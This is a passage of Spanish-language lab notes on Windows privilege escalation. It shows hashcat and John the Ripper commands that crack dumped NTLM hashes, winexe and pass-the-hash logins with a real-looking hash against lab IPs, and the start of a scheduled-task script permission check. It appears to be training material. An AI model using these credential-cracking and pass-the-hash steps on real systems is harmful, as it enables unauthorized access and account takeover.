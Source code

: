 Ahora copiaremos todas las credenciales en un .txt y las crackearemos con hashcat o john the ripper![[Pasted image 20240722095942.png]]

Y ahora la crackeamos con Hascat
```
hashcat -m 1000 --force hash.txt /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240722100225.png]]
![[Pasted image 20240722100258.png]]

Ahora podemos volver a listar la salida de hashcat con el siguiente comando
```
hashcat -m 1000 --show hash.txt
```
![[Pasted image 20240722101519.png]]

Tambien podemos usar john the ripper
```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240722101320.png]]

Ahora podriamos acceder por rdp con las credenciales obtenidas
```
winexe -U 'admin%password123' //10.10.169.134 cmd.exe
```
![[Pasted image 20240722101759.png]]

# **Passwords - Passing the Hash**
También podemos acceder utilizando el hash completo
```
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.32.61 cmd.exe
```
![[Pasted image 20240722122040.png]]

# **Scheduled Tasks**
Vamos a revisar el siguiente script el cual indica que cada minuto borra los logs de una carpeta
```
type C:\DevTools\CleanUp.ps1
```
![[Pasted image 20240722122751.png]]

Revisamos los permisos del script y encontramos que podemos modificarlo
```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```
![[Pasted image 20240722123312.png]]
- `/accepteula`: Esta opción suprime la pantalla de aceptación del acuerdo de licencia que normalmente se mostraría al ejecutar herramientas de Sysinternals por primera vez.
- `-quvw`: Son opciones combinadas que modifican el comportamiento de `accesschk`:
    - `-q`: Modo silencioso (quiet), reduce la cantidad de salida para facilitar la lectura.
    - `-u`: Muestra los permisos explícitamente otorgados al usuario.
    - `-v`: Modo verboso, proporciona información detallada.
    - `-w`: Muestra solo los objetos que tienen permiso de escritura.
- `user`: Especifica el nombre del usuario o del grupo cuyos permisos se están comprobando.
